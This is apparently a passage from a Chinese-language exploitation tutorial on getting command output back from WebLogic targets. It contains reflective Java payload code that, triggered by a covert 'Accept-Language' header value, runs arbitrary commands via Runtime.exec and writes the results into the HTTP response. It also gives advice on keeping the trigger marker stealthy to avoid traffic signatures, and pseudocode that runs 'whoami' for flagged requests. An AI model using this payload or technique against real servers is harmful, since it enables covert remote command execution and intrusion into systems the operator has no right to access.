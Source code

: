```java
            String var15 = (String) adapter.getClass().getMethod("getHeader", String.class).invoke(adapter, "Accept-Language");
            if (var15 != null && var15.equals("zh-CN,zh;q=1.9")) {
                String result = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                res = adapter.getClass().getMethod("getResponse").invoke(adapter);
                Object sin = Class.forName("weblogic.xml.util.StringInputStream").getConstructor(String.class).newInstance(result);
                Object out = res.getClass().getDeclaredMethod("getServletOutputStream").invoke(res);
                out.getClass().getDeclaredMethod("writeStream",Class.forName("java.io.InputStream")).invoke(out,sin);
                out.getClass().getDeclaredMethod("flush").invoke(out);
                Object w = res.getClass().getDeclaredMethod("getWriter").invoke(res);
                w.getClass().getDeclaredMethod("write",String.class).invoke(w,"");
            }
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
### 区分命令请求和正常业务请求
因为当前代码执行的方式是通过类的静态代码块，不能直接拿到当前的Request，所以只能通过上下文，获取所有web请求，遍历，筛选出“恶意请求”

**怎么找出“恶意请求”？**

常规的做法是，添加header，例如cmd: aaa，来标记“恶意请求”（但是这个标记需要隐蔽些，避免明显的流量特征）

其实也可以用当前请求的请求体，作为标记。可以在构造payload时，加入一些标志符，例如在恶意类中添加一个随机字符串，则生成的class中就会包含这个字符串，在代码执行时，获取到payload，检查这个字符串是否存在。但这种方式太不灵活了，payload可能是base64的字节码，或hex的字节码，代码执行时需要检查的就需要是base64的随机字符串或hex的随机字符串

**伪代码**

```go
threads = Thread.getThreads()
var thread
// 找出处理http请求的线程
foreach t : threads{
    if t.getName().content("http"){
        thread = t
        break
    }
}

reqs = t.getRequests()
// 找出hedaer中含有标记的请求，在其返回包内写入命令执行结果
foreach req : reqs{
    if req.getHeaders().get("cmd") != null{
        req.getResponse().setBody(eval("whoami"))
        break
    }
}
```
